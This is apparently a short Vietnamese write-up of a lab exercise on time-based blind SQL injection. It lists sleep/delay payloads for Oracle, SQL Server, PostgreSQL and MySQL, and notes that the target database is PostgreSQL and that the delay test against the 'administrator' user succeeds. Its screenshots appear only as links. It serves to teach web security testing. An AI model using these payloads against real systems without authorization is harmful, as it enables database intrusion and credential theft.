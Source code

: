 ![image](https://github.com/user-attachments/assets/8ada8e2a-1f15-4ea8-bc10-a9b62db91e33)

```
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10)
```

Tiếp tục test nhé, test xem dbms của nó là gì?

![image](https://github.com/user-attachments/assets/1b2f3730-5ffd-4b8f-b1a1-b08b5e568d59)

dbms là PostgreSQL và nó đã bị time based

![image](https://github.com/user-attachments/assets/065c8d19-1012-4de2-9064-b554541705e0)

Vì đề đã cho biết username là administrator rồi nên ta test thôi, thì time based nó đã hoạt động.

